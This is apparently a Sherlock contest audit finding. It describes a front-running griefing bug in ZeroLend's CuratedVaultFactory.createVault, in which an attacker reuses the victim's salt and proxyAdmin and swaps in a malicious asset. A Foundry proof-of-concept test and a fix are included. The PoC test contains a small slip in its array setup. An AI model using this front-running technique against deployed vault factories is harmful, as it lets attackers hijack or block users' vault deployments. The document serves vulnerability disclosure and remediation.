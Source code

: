 Innocent Chartreuse Parrot

Medium

# Vault creation can be perpetually griefed, rendering Curated Vaults useless

## Summary
Vault creation can be perpetually griefed and all vaults can be compromised upon deployment. 

## Vulnerability Detail
The deployment of a vault does not consider values that are specific to the user submitting the transaction (i.e. `msg.sender`):

[CuratedVaultFactory::createVault](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/vaults/CuratedVaultFactory.sol#L48-L58)
```solidity
  function createVault(InitVaultParams memory p) external returns (ICuratedVault vault) {
    // create the vault
    vault = ICuratedVault(address(new RevokableBeaconProxy{salt: p.salt}(address(this), p.proxyAdmin))); // @audit: salt and proxyAdmin are not calculated dynamically in function call
    emit CuratedEventsLib.VaultCreated(vault, vaults.length, p, msg.sender);


    vault.initialize(p.admins, p.curators, p.guardians, p.allocators, p.timelock, p.asset, p.name, p.symbol); // @audit: all values not considered for deployment


    // track the vault
    vaults.push(vault);
    isVault[address(vault)] = true;
  }
```

As we can see above, only the supplied `salt` and `proxyAdmin` are considered when deploying the vault, while the other initialization values such as the `asset` is not considered. Therefore, a bad actor can front run a `createVault` transaction, using the same `salt` and `proxyAdmin` values as the original transaction, but supply a malicious `asset` value. As a result, the original transaction will revert since the vault has already been created (create2 collision) and the created vault can be considered compromised since the `asset`, which can not be changed, now points to a malicious token address (vault is now useless). 

## Proof of Concept
Place the following test inside `CuratedVaultFactoryTest.sol` and run with `forge test --mc CuratedVaultFactoryTest --mt testGriefVaultCreation`:

```solidity
    function testGriefVaultCreation() public {
        // vault owner prepares data for vault creation
        owner = address(0x01010101);

        address[] memory admins = new address[](1);
        address[] memory curators = new address[](1);
        address[] memory guardians = new address[](1);
        address[] memory allocators = new address[](1);
        admins[0] = owner;
        curators[0] = curator;
        guardians[0] = guardian;
        guardians[0] = allocator;
        defaultVaultParams = ICuratedVaultFactory.InitVaultParams({
          revokeProxy: true,
          proxyAdmin: owner,
          admins: admins,
          curators: curators,
          guardians: guardians,
          allocators: allocators,
          timelock: 1 weeks,
          asset: address(loanToken),
          name: 'Vault',
          symbol: 'VLT',
          salt: keccak256('salty')
        });

        // user observes tx data in mempool and alters the asset to be a malicious token
        address user = address(0x69420);
        MintableERC20 malToken = new MintableERC20('Malicious Token', 'MAL');

        defaultVaultParams.asset = address(malToken);
        
        vm.prank(user);
        vault = vaultFactory.createVault(defaultVaultParams);

        // vault owner's transaction executes, but reverts since vault already created
        defaultVaultParams.asset = address(loanToken);
        vm.startPrank(owner);
        vm.expectRevert();
        vaultFactory.createVault(defaultVaultParams);
        vm.stopPrank();

        // created vault's asset is malToken (vault compromised/unusable)
        assertEq(vault.asset(), address(malToken));
    }
```

## Impact
All curated vaults can become compromised upon deployment, breaking their core contract functionality - they simply can not be used.  

## Code Snippet
https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/vaults/CuratedVaultFactory.sol#L48-L58

## Tool used

Manual Review

## Recommendation
The salt should be calculated dynamically to take into account `msg.sender`.